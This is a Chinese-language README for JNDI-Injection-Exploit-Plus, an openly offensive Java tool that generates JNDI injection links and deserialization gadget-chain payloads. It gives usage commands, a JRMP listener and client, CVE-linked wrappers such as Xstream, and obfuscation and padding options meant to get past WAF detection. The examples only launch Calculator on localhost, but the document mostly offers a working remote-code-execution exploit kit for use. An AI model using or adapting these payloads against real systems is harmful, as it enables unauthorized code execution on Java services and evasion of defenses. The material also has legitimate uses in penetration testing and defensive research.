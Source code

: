 # JNDI-Injection-Exploit-Plus

[English README](./README.md)

JNDI-Injection-Exploit-Plus改写自welk1n大佬的JNDI-Injection-Exploit项目。

## 详细说明

### 是一款JNDI注入利用工具，可以生成JNDI链接并启动后端相关服务。

根据JNDI的三种触发点，提供3种JNDI利用方式

- 远程Reference链 （3种）
- 本地Reference链 （4种）
- 反序列化链（74种）

P.S. 具体利用链名称及依赖见 [表格](./README.md)

#### 使用方法

```
$ java -jar JNDI-Injection-Exploit-Plus-2.3-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

#### 参数说明

```
-C - 要执行的命令.

(可选 , 默认命令 "open /Applications/Calculator.app")

-A - 运行此工具的主机IP地址.

(可选 , 默认是第一个网卡的地址)
```

#### 示例

1. 运行工具

```
$ java -jar JNDI-Injection-Exploit-Plus-2.3-SNAPSHOT-all.jar -C "/System/Applications/Calculator.app/Contents/MacOS/Calculator" -A "127.0.0.1"
```

![](./img/1.png)

2. 触发JNDI注入

```
class Test{
    public static void main(String[] args) throws Exception{
        InitialContext ctx = new InitialContext();
        ctx.lookup("rmi://127.0.0.1:1099/remoteExploit8");
    }
}
```

![](./img/2.png)

### 是一款反序列化Payload生成工具

包含50+ Gadgets链，比ysoserial还多出10+，后续会持续补充，欢迎大家一起来提交。

#### 使用方法

```
$ java -jar JNDI-Injection-Exploit-Plus-2.3-SNAPSHOT-all.jar [-C] [command] [-D] [Gadget] [-O] [base64/hex]
```

#### 参数说明

```
-C - 要执行的命令.

(可选 , 默认命令 "open /Applications/Calculator.app")

-D - 要生成的反序列化链名字，见Github列表.

-O - (可选) 输出格式，base64或16进制, 默认是16进制
```

#### 示例

1. 普通

```
$ java -jar JNDI-Injection-Exploit-Plus-2.3-SNAPSHOT-all.jar -C "/System/Applications/Calculator.app/Contents/MacOS/Calculator" -D "Spring2" -O base64
```

![](./img/3.png)

2. JRMP

- JRMPListener
```
java -cp JNDI-Injection-Exploit-Plus-2.3-SNAPSHOT-all.jar exploit.JRMPListener <port> CommonsCollections1 calc
```

- JRMPClient
```
java -jar JNDI-Injection-Exploit-Plus-2.3-SNAPSHOT-all.jar -C "<ip>:<port>" -D "JRMPClient" -O base64
```

#### 提供反序列化包装器

包装器   | 示例漏洞
--------| -----------
Xstream | CVE-2021-39149
Apereo  | Apereo 4.1 反序列化漏洞
JbossRemoting | Jboss Remoting 服务反序列化
Gzip | 用友组件的一些接口使用Gzip
Dirty | 插入大量脏数据来绕过WAF检测

- 示例

```shell
$ java -jar JNDI-Injection-Exploit-Plus-2.3-SNAPSHOT-all.jar -C "open -a Calculator" -D Jdk7u21 -W Xstream
```

![](./img/4.png)

#### 混淆

混淆class名字来绕过WAF

- Example

```shell
$ java -jar JNDI-Injection-Exploit-Plus-2.3-SNAPSHOT-all.jar -C "open -a Calculator" -D Jdk7u21 -F
```

参考链接：[https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html](https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html)

#### 可以返回反序列化数据的web服务

```shell
java -jar JNDI-Injection-Exploit-Plus-2.3-SNAPSHOT-all.jar
```

```shell
POST /deserial/{Gadget}

cmd={command}&wrapper={wrapper}output={base64/hex}
```

P.S. 参数 wrapper & output 是可选的

![](./img/5.png)

## 总结

JNDI-Injection-Exploit-Plus 主要有JNDI注入和生成反序列化链 2个用途，其中包含的利用链更多。详情请移步项目地址：https://github.com/cckuailong/JNDI-Injection-Exploit-Plus

喜欢的同学别忘了点个star。 ^_^

## 参考链接

- https://github.com/cckuailong/JNDI-Injection-Exploit-Plus
- https://github.com/welk1n/JNDI-Injection-Exploit
- https://github.com/frohoff/ysoserial